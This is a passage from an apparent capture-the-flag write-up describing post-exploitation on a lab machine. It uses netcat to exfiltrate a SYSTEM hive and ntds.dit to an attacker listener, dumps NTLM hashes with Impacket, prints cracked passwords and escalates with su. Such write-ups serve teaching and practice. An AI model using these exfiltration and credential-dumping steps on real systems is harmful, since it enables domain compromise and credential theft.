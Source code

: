 Since this is data from a penetration test, it can be assumed that the **MS Windows Registry file** is the _SYSTEM_ hive file which contains the boot key that allows us to decrypt the _ntds.dit_.

Lets download the files to our local box:
```markdown
# On local client
nc -lvnp 443 > SYSTEM
nc -lvnp 443 > ntds.dit

# On box
nc 10.10.14.11 443 < 20170721114637_default_192.168.110.133_psexec.ntdsgrab.089134.bin
nc 10.10.14.11 443 < 20170721114636_default_192.168.110.133_psexec.ntdsgrab.333512.dit
```

Now lets start the decryption process.

### Decrypting the ntds.dit

To decrypt the _ntds.dit_ file, we use the **Impacket Framework**:
```markdown
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```

After it finished, it outputs **NTLM hashes** of different users. The most important ones are:
```markdown
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
```

The hash of _krbtgt_ is probably too strong to crack, so lets ignore that.
Looking up if the other hashes are available online on **hashes.org**:
```markdown
e64fe0f24ba2489c05e64354d74ebd11:f16tomcat!
2b576acbe6bcfda7294d6bd18041b8fe:Password123!
```

They are and we got the clear-text passwords of both users.
These passwords don't work with SSH but as we are connected on the box, we can try to switch the user to _atanas_:
```markdown
su - atanas
```

The password of _Administrator_ works.

### Privilege Escalation to root

The home directory of _atanas_ doesn't have anything interesting in there but the user can go into the _/root_ folder and has permission to read two files:
- flag.txt
```markdown
Getting closer! But what you are looking for can't be found here.
```

- app.log
```markdown
10.0.3.133 - - [20/Jul/2017:22:48:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:50:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:52:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
```
